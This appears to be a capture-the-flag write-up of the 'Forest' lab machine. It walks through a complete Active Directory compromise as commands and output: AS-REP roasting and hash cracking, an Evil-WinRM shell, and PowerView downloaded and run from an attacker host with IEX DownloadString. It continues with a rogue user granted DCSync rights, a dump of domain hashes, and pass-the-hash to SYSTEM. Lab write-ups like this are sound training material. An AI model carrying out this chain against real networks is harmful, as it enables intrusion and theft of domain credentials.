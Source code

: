 # Forest - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows Server 2016 Standard 14393
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

### Domain Information
From the scan results, I identified domain information:
```
OS: Windows Server 2016 Standard 14393
Computer name: FOREST
NetBIOS computer name: FOREST
Domain name: htb.local
Forest name: htb.local
FQDN: FOREST.htb.local
```

### SMB Enumeration
I attempted to enumerate SMB shares and users:
```bash
nmap --script=smb-enum-* -p 445 10.129.95.210
```

This revealed numerous domain users, including:
- Administrator
- andy
- lucinda
- mark
- santi
- sebastien
- svc-alfresco

I also noticed several service accounts and Exchange-related accounts:
- HealthMailbox accounts
- Service accounts for Exchange

### RPC Enumeration
I performed RPC enumeration to find additional information:
```bash
rpcdump.py 10.129.95.210
```

This provided information about available RPC endpoints and services.

## Gaining Initial Access

### AS-REP Roasting
With the list of users obtained from SMB enumeration, I attempted AS-REP Roasting to identify accounts with Kerberos pre-authentication disabled:
```bash
GetNPUsers.py htb.local/ -dc-ip 10.129.95.210 -request -usersfile users.txt
```

This revealed a hash for the "svc-alfresco" user:
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:64cee1c2607306d7d7034e857120fd0b$4e3f2c02330bdf0b4295adf20df3b1076aebc27fe11e8be92a450f3c0d6b94bcafcaece4483811efdc6369ae6d4f903df753cb99abe9dcdb22a2148f37ae987a8aa1ed9d35e40e7335aec91e52c5b4dcd9aac36abbca173956fd3b1d6689f5a89eec53d9ea715bbd650c3be39128b60a518e4d8c6e17836695798304c32e3f1d3185d89a7446dff8f7f314ee9ac4adc1c41ce8ae482de95d87d399ca3912379f3e005401f1f87b4ca93758b29e1a3a814166cf89a07c7721429ab4f813540aa90f2f7e8459915dd239cbf523b68fd242d7527b33a2197b6a3df48e4245b43ddf5a3105515d53
```

### Password Cracking
I used Hashcat to crack the obtained hash:
```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

This revealed the credentials:
- **Username**: svc-alfresco
- **Password**: s3rvice

### Initial Access
I attempted to connect to the target using various methods:
```bash
wmiexec.py svc-alfresco:s3rvice@10.129.95.210
```

This failed, but I noticed WinRM (port 5985) was open. I tried using Evil-WinRM:
```bash
evil-winrm -u svc-alfresco -p 's3rvice' -i 10.129.95.210
```

This successfully provided a shell as svc-alfresco.

## Privilege Escalation

### Domain Enumeration
After gaining initial access, I loaded PowerView to enumerate the domain:
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.15/PowerView.ps1')
```

I identified the group memberships of svc-alfresco:
```powershell
Get-NetGroup -UserName svc-alfresco
```

This showed that svc-alfresco was a member of the "Service Accounts" group:
```
GroupDomain             : htb.local
GroupName               : Service Accounts
GroupDistinguishedName  : CN=Service Accounts,OU=Security Groups,DC=htb,DC=local
```

I also enumerated Domain Admins:
```powershell
Get-NetGroupMember -Identity "Domain Admins" -Recurse
```

This showed only the Administrator account was in this group.

### Exchange Permissions
Further investigation revealed that the Exchange Windows Permissions group had special permissions in the domain. After research, I found that members of this group can be abused to grant DCSync rights.

### Creating a Rogue User
I created a new user to add to the Exchange Windows Permissions group:
```powershell
net user john Dolphin1 /add /domain
net group "Exchange Windows Permissions" /add john
```

### Granting DCSync Rights
I used PowerView to grant DCSync rights to the newly created user:
```powershell
$pass = convertto-securestring 'Dolphin1' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\john', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity john -Rights DCSync
```

### DCSync Attack
With DCSync rights, I used secretsdump.py to extract all domain hashes:
```bash
secretsdump.py -just-dc john:Dolphin1@10.129.95.210 -outputfile dcsync_hashes
```

This revealed the NTLM hash for the Administrator account:
```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

### Domain Admin Access
Using the Administrator hash, I performed a Pass-The-Hash attack to get administrative access:
```bash
psexec.py "Administrator"@10.129.95.210 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

This provided a shell as NT AUTHORITY\SYSTEM on the domain controller